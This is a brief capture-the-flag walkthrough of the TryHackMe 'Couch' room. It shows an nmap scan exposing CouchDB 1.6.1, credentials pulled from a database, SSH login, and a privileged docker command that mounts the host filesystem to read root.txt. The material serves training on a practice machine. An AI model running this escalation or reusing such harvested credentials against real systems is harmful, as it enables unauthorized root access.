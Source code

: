 ```yaml
---

title: Walkthrough - Couch
published: true
---
```


Web, Docket, Linux, CouchDB.

[https://tryhackme.com/room/couch](https://tryhackme.com/room/couch)

* * *

## Scan the machine. How many ports are open?

``
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
``

* * *

## What is the database management system installed on the server?

``
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
``

* * *

## What port is the database management system running on?

- 5984

* * *

## What is the version of the management system installed on the server?

- 1.6.1

* * *

## What is the path for the web administration tool for this database management system?

- found this by running `feroxbuster` as gobuster was givin me too many errors

* * *

## What is the path to list all databases in the web browser of the database management system?

- `_all_dbs`

* * *

## What are the credentials found in the web administration tool?

- `inside the secret db - atena:t4qfzcc4qN## `

* * *

## Compromise the machine and locate user.txt

- ssh in with the creds

* * *

## Escalate privileges and obtain root.txt

- check `.bash_history` and run `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`
- cat `/root/root.txt`

![](/assets/couch01.png)

* * * 

